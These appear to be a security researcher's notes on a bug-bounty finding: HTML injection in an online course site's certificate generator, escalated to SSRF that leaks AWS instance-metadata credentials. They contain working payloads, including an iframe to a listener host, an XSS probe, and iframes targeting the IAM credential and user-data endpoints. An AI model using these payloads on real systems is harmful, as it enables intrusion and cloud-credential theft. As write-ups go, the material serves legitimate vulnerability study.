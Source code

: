 
2025-07-11 22:53

Source: #web 

We have a website which sells online courses. If possible try buying a course & start testing from inside. Try the usual stuff like bypassing payments, accessing locked content, checking for `IDORs`, and looking for exposed assets.

So after buying a course and completing the course ,the site offered me a certificate generator to download my certificate.

## The Certificate Generator Feature

the page will let you enter:
- Your **name**
- Your **title**
- (Optionally) a quote or message
then you click **“generate”**, and the server gives you back a **PDF or PNG file** with your info on a nice certificate template.

the request body looked something like this:
```json
{  
  "name": "name",  
  "title": "title",  
  "quote": "quote "  
}
```

As always, I started by testing all input parameters for injection. The `title` parameter was the parameter that have no input sanitization.

I replaced it with a simple HTML tag:
```json
"title": "<i>ahmed</i>"
```

Since there was no input sanitization, the HTML payload got rendered in both pdf and image in _italic_ font.

on trying a few more
```json
"title": "<b>Red Team Member</b>"

"title": "<iframe src='https://sub.0xxnum.fun/test'></iframe>"

"title": "<img src=x onerror=alert(1)>"
```

- `<b>` and `<iframe>` **rendered**
- `<script>` and `onerror=` **did not execute**

This meant we had **HTML [[Injection]]**, but **not XSS**.

## Identifying SSRF

next, i wanted to test if this rendering process would actually **fetch resources** from the `iframe`.

so i modified the payload:
```json
"title": "<iframe src='http://sub.tarek.dev/probe'></iframe>"
```
and set up a listener on my end (Burp Collaborator / [[netcat]] / web server).

> I received a DNS and HTTP hit to listener from the IP address of the web application server.

Now i confirmed that **the server was rendering HTML and loading iframe content from our input**.  
> that’s **SSRF via HTML Injection** in the PDF rendering flow.

## Going for [[AWS]] metadata 

Having [[Server-side request forgery (SSRF)]] is one thing, but proving its impact is another. Since the server was making outbound HTTP requests, I suspected it might be hosted on **AWS** — and if so, I wanted to reach the **Instance Metadata Service (IMDS)**.

To begin the attack, I injected a new payload designed to access the metadata endpoint:
```json
"title": "<iframe src='http://169.254.169.254/latest/meta-data/iam/security-credentials/'></iframe>"
```

The generated PDF included the IAM role name, my-app-instance-role, confirming that the server was running on an AWS EC2 instance with IMDSv1 enabled. IMDSv1 is particularly vulnerable because it does not require authentication tokens, unlike IMDSv2.

I then crafted another payload to target the specific IAM role and leak temporary credentials:
```json
"title": "<iframe src='http://169.254.169.254/latest/meta-data/iam/security-credentials/my-app-instance-role'></iframe>"
```

The resulting PDF contained sensitive data, including:
- **AccessKeyId**
- **SecretAccessKey**
- **Token**

these were **temporary AWS credentials,** depending on the permissions tied to that `IAM` role, this could’ve granted access to other AWS services like `S3`, `DynamoDB`, etc.

Besides AWS access keys, see if there is any sensitive data in the user-data `IMDS` endpoint
 ```
http://169.254.169.254/latest/user-data
```

the `user-data` section often includes bootstrapping scripts, environment variables, or even hardcoded secrets in plaintext.

## What really happened

how does putting an iframe in a PDF result in the **server** sending HTTP requests?

when i submit my name, title, and quote, the server builds an HTML version of the certificate and passes it to a rendering engine like `wkhtmltopdf`, `puppeteer`, or another headless browser tool.  
those tools process the full HTML just like a normal browser would. that means they fetch images, iframes, stylesheets, and more — **automatically** — to fully render the page before converting it to a PDF or PNG.

so when you include this:
```html
<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>
```

the rendering tool on the server sees that iframe and tries to fetch the content from that IP address.  
and since `169.254.169.254` is the AWS metadata IP, this turns into an SSRF from **inside** the cloud environment.

your input is not just sitting in the PDF — it is being **processed and loaded** before the final file is created.

this is the core of the vulnerability.  
you’re abusing HTML injection, not to trigger JavaScript or do XSS, but to trick the server into making internal HTTP requests by rendering your iframe or other HTML tags.

### References
[How I Escalated Simple HTML Injection to SSRF via PDF Rendering | by Ahmed Tarek | Jul, 2025 | Medium](https://medium.com/@0x_xnum/how-i-escalated-simple-html-injection-to-ssrf-via-pdf-rendering-682ea94b3194)